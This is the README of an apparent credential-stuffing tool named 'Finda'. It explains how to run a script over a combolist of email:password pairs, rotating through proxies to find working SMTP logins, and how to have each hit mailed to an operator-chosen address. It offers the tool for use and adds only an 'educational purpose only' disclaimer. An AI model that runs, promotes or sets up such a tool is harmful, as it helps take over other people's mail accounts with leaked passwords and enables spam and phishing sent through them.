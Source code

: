 # Finda
Find working smtp from combolist. list format email:pass.

install python https://www.python.org

on your command prompt. type cd into the finda foler and run the following command.

''' pip install -r requirement.txt '''

''' python finda.py combolist.txt -s sockfile.txt -p sock5 -e emailtogetlog@example.com '''

-s flag followed by a file name with proxies in the following format 0.0.0.0:80. if could be http, sock4 or sock5.

-p specify the proxy type in the file.

-e the email address you would like to get working smtp logs. if finda finds a working smtp it will send a message using that smtp to specified email address.

#this tool is for educational purpose only. i will not be held responsible for how the public uses it.
